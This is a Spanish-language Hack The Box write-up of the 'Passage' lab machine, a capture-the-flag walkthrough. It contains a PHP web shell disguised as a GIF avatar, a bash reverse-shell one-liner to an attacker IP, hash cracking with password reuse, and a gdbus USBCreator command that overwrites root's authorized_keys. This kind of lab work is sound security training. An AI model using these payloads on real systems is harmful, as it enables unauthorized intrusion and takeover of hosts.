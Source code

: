 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando así acceso sin proporcionar credenciales."
date: 2023-12-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-passage/passage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CuteNews Exploitation > RCE
  - hash cracking
  - password reuse
  - USBCreator D-Bus Privilege Escalation
  - abuse USBCreator to overwritten authorized_keys
---
```



Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando acceso sin proporcionar credenciales.

# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![](/assets/images/htb-writeup-passage/Pasted image 20231201114320.png)

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![](/assets/images/htb-writeup-passage/Pasted image 20231201114800.png)


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![](/assets/images/htb-writeup-passage/Pasted image 20231201114925.png)

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```php
GIF8;
<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![](/assets/images/htb-writeup-passage/Pasted image 20231201115631.png)

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![](/assets/images/htb-writeup-passage/Pasted image 20231201115917.png)

![](/assets/images/htb-writeup-passage/Pasted image 20231201115957.png)

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201120446.png)

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![](/assets/images/htb-writeup-passage/Pasted image 20231201120824.png)

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![](/assets/images/htb-writeup-passage/Pasted image 20231201121158.png)

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121424.png)

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121647.png)

y pruebo a reutilizarla como "**paul**"
![](/assets/images/htb-writeup-passage/Pasted image 20231201121712.png)

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![](/assets/images/htb-writeup-passage/Pasted image 20231201121842.png)

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![](/assets/images/htb-writeup-passage/Pasted image 20231201122046.png)

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201124305.png)

Logrando así ganar acceso como Root.
